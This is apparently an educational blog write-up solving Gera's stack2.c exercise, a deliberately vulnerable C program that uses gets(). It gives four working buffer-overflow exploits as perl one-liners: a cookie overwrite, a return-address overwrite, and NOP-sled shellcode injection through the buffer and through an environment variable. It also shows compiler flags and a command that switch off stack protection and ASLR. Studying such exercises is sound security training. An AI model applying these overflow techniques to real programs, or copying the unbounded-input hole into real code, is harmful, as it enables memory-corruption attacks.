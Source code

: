 Gera's Warming Up on Stack #2 - Solutions
==========================================
date: 02/Jan/2013
summary: Solutions for Gera's Warming up on Stack #2 program.
tags: exploit, ctf

## Introduction

Following is the part 2 in the series of posts I started back in August 2012 with an aim to provide an analysis and possible solutions for the vulnerable programs provided by [Gera](http://corelabs.coresecurity.com/index.php?module=Wiki&action=view&type=researcher&name=Gerardo_Richarte) at his [Insecure Programming](http://community.corest.com/%7Egera/InsecureProgramming/) by example page.

This post follows the [Gera's Warming Up on Stack #1 - Solutions](https://7h3ram.github.io/posts/20120827_geras-wuos-stack1-solutions.html) post and if you have not read it, I request you to please do so. Most of the concepts are very similar and since they have been already talked about, I'll not be reiterating them here.

Let's get started. Below is the source for the vulnerable [stack2.c](http://community.corest.com/%7Egera/InsecureProgramming/stack2.html) program:

```c
/* stack2.c                                     *
 * specially crafted to feed your brain by gera */

int main() {
    int cookie;
    char buf[80];

    printf("buf: %08x cookie: %08x\n", &buf, &cookie);
    gets(buf);

    if (cookie == 0x01020305)
        printf("you win!\n");
}
```

Like its counterpart [stack1.c](http://community.corest.com/%7Egera/InsecureProgramming/stack1.html), the above program too accepts user-input through the `gets` function and then looks for a specific value in a local variable named `cookie`. If this value is equal to a certain pre-defined constant, `printf` function is used to show a `you win!` message to the user. There is no direct means of modifying the content of the `cookie` variable. The `gets` function will keep reading from the stdin device until it encounters a newline or EoF character. Since this reading loop fails to honor the size of the destination buffer, a classic buffer overflow vulnerability is introduced in the program. Our aim is to leverage this vulnerability and exploit this program so that it prints the `you win!` message to stdout.

Here are a few observations that could be made by looking at the source of the program:

1. Since it is defined prior to `buf`, the `cookie` would be placed at a higher memory address on the program stack, just below the saved registers from the function prologue
2. The `buf` character array would be at an offset of at least 80B from `cookie`
3. The `gets` call would accept unbounded user-input within `buf` array and hence it provides a mechanism to alter the call stack contents

Stack layout for [stack2.c](http://community.corest.com/%7Egera/InsecureProgramming/stack2.html) is identical to [stack1.c](http://community.corest.com/%7Egera/InsecureProgramming/stack1.html) as already outlined in the [Gera's Warming Up on Stack #1 - Solutions](https://7h3ram.github.io/posts/20120827_geras-wuos-stack1-solutions.html) post.

Here are solutions I could think of to get the `you win!` message printed:

- Solution #1: Overflow the internal `buf` array to overwrite `cookie` with `0x01020305`
- Solution #2: Overflow the internal `buf` array to overwrite EIP with the address of `printf(you win!)`
- Solution #3: Inject a NOP-prefixed `printf(you win!)` shellcode and overwrite EIP with its address
- Solution #4: Inject a NOP-prefixed `printf(you win!)` shellcode through an environment var and overwrite EIP with its address

Here's a brief description of the test system:

```
# cat /etc/lsb-release | grep DESC ; uname -a | cut -d' ' -f1,3,12-13 ; gcc --version | grep gcc ; cat /proc/cpuinfo | grep -E '(vendor|model|flags)'
DISTRIB_DESCRIPTION=*Ubuntu 10.04.2 LTS*
Linux 2.6.38 i686 GNU/Linux
gcc (Ubuntu 4.4.3-4ubuntu5) 4.4.3
vendor_id   : GenuineIntel
model       : 37
model name  : Intel(R) Core(TM) i3 CPU       M 350  @ 2.27GHz
flags       : fpu vme de pse tsc msr pae mce cx8 apic sep mtrr pge mca cmov pat pse36 clflush mmx fxsr sse sse2 syscall nx lm constant_tsc up pni monitor ssse3 lahf_l
```

## Solution #1: Overflow the internal `buf` array to overwrite cookie with `0x01020305`

Here's the GCC commandline to prepare [stack2.c](http://community.corest.com/%7Egera/InsecureProgramming/stack2.html) for this solution:

```
# gcc -mpreferred-stack-boundary=2 -fno-stack-protector -o stack2 stack2.c
stack2.c: In function ‘main’:
stack2.c:8: warning: incompatible implicit declaration of built-in function ‘printf’
stack2.c:8: warning: format ‘%08x’ expects type ‘unsigned int’, but argument 2 has type ‘char (*)[80]’
stack2.c:8: warning: format ‘%08x’ expects type ‘unsigned int’, but argument 3 has type ‘int *’
/tmp/ccoBRXbD.o: In function `main':
stack2.c:(.text+0x27): warning: the `gets' function is dangerous and should not be used.
```

All done, let's exploit [stack2.c](http://community.corest.com/%7Egera/InsecureProgramming/stack2.html):

```
# perl -e 'print "A"x80 . "\x05\x03\x02\x01"' | ./stack2
buf: bffff4c4 cookie: bffff514
you win!
```

## Solution #2: Overflow the internal `buf` array to overwrite EIP with the address of `printf(you win!)`

We need to have a look at the assembly of [stack2.c](http://community.corest.com/%7Egera/InsecureProgramming/stack2.html) and find out the location of the `printf` function which displays the `you win!` message:

```c-objdump
# objdump -d -M intel stack2 | grep -A20 main.:
08048444 <main>:
 8048444:   55                      push   ebp
 8048445:   89 e5                   mov    ebp,esp
 8048447:   83 ec 60                sub    esp,0x60
 804844a:   8d 45 fc                lea    eax,[ebp-0x4]
 804844d:   89 44 24 08             mov    DWORD PTR [esp+0x8],eax
 8048451:   8d 45 ac                lea    eax,[ebp-0x54]
 8048454:   89 44 24 04             mov    DWORD PTR [esp+0x4],eax
 8048458:   c7 04 24 50 85 04 08    mov    DWORD PTR [esp],0x8048550
 804845f:   e8 0c ff ff ff          call   8048370 &lt;printf@plt&gt;
 8048464:   8d 45 ac                lea    eax,[ebp-0x54]
 8048467:   89 04 24                mov    DWORD PTR [esp],eax
 804846a:   e8 e1 fe ff ff          call   8048350 &lt;gets@plt&gt;
 804846f:   8b 45 fc                mov    eax,DWORD PTR [ebp-0x4]
 8048472:   3d 05 03 02 01          cmp    eax,0x1020305
 8048477:   75 0c                   jne    8048485 &lt;main+0x41&gt;
 8048479:   c7 04 24 68 85 04 08    mov    DWORD PTR [esp],0x8048568
 8048480:   e8 fb fe ff ff          call   8048380 &lt;puts@plt&gt;
 8048485:   c9                      leave
 8048486:   c3                      ret
 8048487:   90                      nop
```

The address turns out to be `0x8048479`. Let's try exploiting:

```
# perl -e 'print "A"x88 . "\x79\x84\x04\x08"' | ./stack2
buf: bffff4c4 cookie: bffff514
you win!
Segmentation fault
```

## Solution #3: Inject a NOP-prefixed `printf(you win!)` shellcode and overwrite EIP with its address

Let's first recompile [stack2.c](http://community.corest.com/%7Egera/InsecureProgramming/stack2.html) and request GCC to mark program stack as executable. Additionally, we also need to turn ASLR off so that we can have a static return address to overwrite EIP with:

```
# gcc -mpreferred-stack-boundary=2 -fno-stack-protector -z execstack -o stack2 stack2.c 2>/dev/null ; readelf -l stack2 | grep GNU_STACK
  GNU_STACK      0x000000 0x00000000 0x00000000 0x00000 0x00000 RWE 0x4
#
# echo 0 >/proc/sys/kernel/randomize_va_space ; cat /proc/sys/kernel/randomize_va_space
0
```

Now lets go ahead with exploitation. The Null-free, NOP-prefixed `printf(you win!)` shellcode we used to exploit [stack1.c](http://community.corest.com/%7Egera/InsecureProgramming/stack1.html) in the [Gera's Warming Up on Stack #1 - Solutions](https://7h3ram.github.io/posts/20120827_geras-wuos-stack1-solutions.html) post could be reused here:

```
# ./stack2
buf: bffff4c4 cookie: bffff514
#
# ./stack2
buf: bffff4c4 cookie: bffff514
#
# perl -e 'print "\x90"x51 . "\xeb\x16\x31\xc0\x31\xdb\x31\xd2\xb0\x04\xb3\x01\x59\xb2\x09\xcd\x80\x31\xc0\x40\x31\xdb\xcd\x80\xe8\xe5\xff\xff\xff\x79\x6f\x75\x20\x77\x69\x6e\x21" . "\xc4\xf4\xff\xbf"' | ./stack2
buf: bffff4c4 cookie: bffff514
you win!#
```

## Solution #4: Inject a NOP-prefixed `printf(you win!)` shellcode through an environment var and overwrite EIP with its address

Lets get straight to exploitation:

```
# echo $WINCODE | hexdump -C
00000000  eb 16 31 c0 31 db 31 d2  b0 04 b3 01 59 b2 20 cd  |..1.1.1.....Y. .|
00000010  80 31 c0 40 31 db cd 80  e8 e5 ff ff ff 79 6f 75  |.1.@1........you|
00000020  20 77 69 6e 21 20 0d 0a                           | win! ..|
00000028
#
# ./getenvaddr WINCODE ./stack2
[+] WINCODE: 0xbffff726
#
# perl -e 'print "\x90"x88 . "\x26\xf7\xff\xbf"' | ./stack2
buf: bffff4c4 cookie: bffff514
you win!
```

So, we have now successfully exploited the [stack2.c](http://community.corest.com/%7Egera/InsecureProgramming/stack2.html) program through four different techniques. Depending on the motive of your exploitation attempt, other techniques could be devised and some, mentioned here, be rejected.

## Conclusion

Like I said, earlier, these solutions are not practical anymore. They just serve the purpose of understanding how exploits used to work before mitigation features were introduced in modern systems. But, as with everything else, understanding basics is really important. As mitigation features mature, exploitation techniques become increasingly complex. And to understand those, we need to build upon the solid foundation of basic concepts, like those discussed on this and other blogs.
